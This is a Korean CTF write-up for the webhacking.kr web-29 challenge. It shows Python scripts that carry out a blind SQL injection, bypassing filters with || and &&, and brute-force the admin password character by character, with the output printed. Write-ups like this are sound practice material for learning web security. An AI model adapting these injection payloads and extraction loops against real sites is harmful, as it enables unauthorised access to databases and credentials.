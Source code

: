 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-12-01-50.png)


# **Write-Up**

or 는 필터링 되는 것 같고 || 를 이용하면 no 에서 SQLi가 터짐을 알 수 있다.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/web-29/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

no          = urllib.parse.quote('2||IF(1=1,1,2)')
url         = CHALLENGE + '?no='+no+'&id=guest&pw=guest'
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
... 생략 ...
<br><br><b>Success - guest</b><meta http-equiv=refresh content=2;url=./>
```

특이하게 no에 0||LENGTH(pw)=10 를 입력하면 Success나 Fail이나 no hack같은게 아닌 admin password라는 창이 뜬다.

![](images/2022-01-03-12-02-13.png)

and와 띄어쓰기가 필터링 되어서 &&와 괄호를 이용하여 우회해서 패스워드를 알아내자.

```python
import urllib.request
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-29/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

pw = ''
for i in range(1, 11):
    for c in string.printable.strip():
        no          = urllib.parse.quote('2||(SUBSTR(pw,{},1)=0x{})&&(id=0x{})'.format(i, c.encode().hex(), 'admin'.encode().hex()))
        url         = CHALLENGE + '?no='+no+'&id=guest&pw=guest'
        request     = urllib.request.Request(url=url, headers=headers)
        response    = urllib.request.urlopen(request)
        result      = response.read().decode()
        
        if 'admin password' in result:
            pw += c
            break;
print('password=' + pw)

[Output]
password=luck_admin
```

알아낸 패스워드를 입력하면 점수를 획득할 수 있다.

![](images/2022-01-03-12-02-24.png)